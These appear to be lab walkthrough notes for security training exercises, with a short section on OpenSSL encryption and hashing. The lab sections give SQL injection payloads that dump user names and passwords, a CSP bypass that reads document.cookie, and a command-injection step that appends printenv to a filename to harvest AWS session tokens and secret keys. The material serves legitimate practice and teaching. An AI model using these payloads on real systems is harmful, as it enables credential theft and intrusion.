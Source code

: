 ## Medium
**Attack :** 1 or 1=1 union select null,concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users
(or)
1 or 1=1 union select null,version()

## High
* Click on `Click here to change ID`
**Attack :** %' or 1=1 union select null,concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users#
(or)
%' or 1=1 union select null,version()#

# CSP Bypass
## Low
* go to hastebin
* make a file with contents
```js
alert(document.cookie);
```
* Save and go to `just text`
* Paste the link in the input field and click go.

# AWS Cloud Attack Defense Command Injection
* Upload the file
* Switch on proxy
* Catch in burpsuite
* Right click and send to repeater
* add printenv to the end of the Filename
* Collect the following from response
  * SESSION TOKEN 
  * SECRET_ACCESS_KEY
  * ACCESS_KEY_ID
* Export them in the terminal in the same order
* Run the following commands

```sh
aws s3 ls s3://temporary-public-image-store
aws s3 cp s3://temporary-public-image-store/flag.txt .
cat flag.txt
```
# Open SSL
* Install from https://slproweb.com/products/Win32OpenSSL.html 5MB File

ENCRYPTION:
`openssl enc -salt -aes-256-cbc -in file.txt -out enc.txt`

`openssl enc -d -aes-256-cbc -in enc.txt -out dec.txt`

HASH:
`openssl dgst -sha256 file.txt`

`openssl dgst -sha256 file.txt > hash.txt`
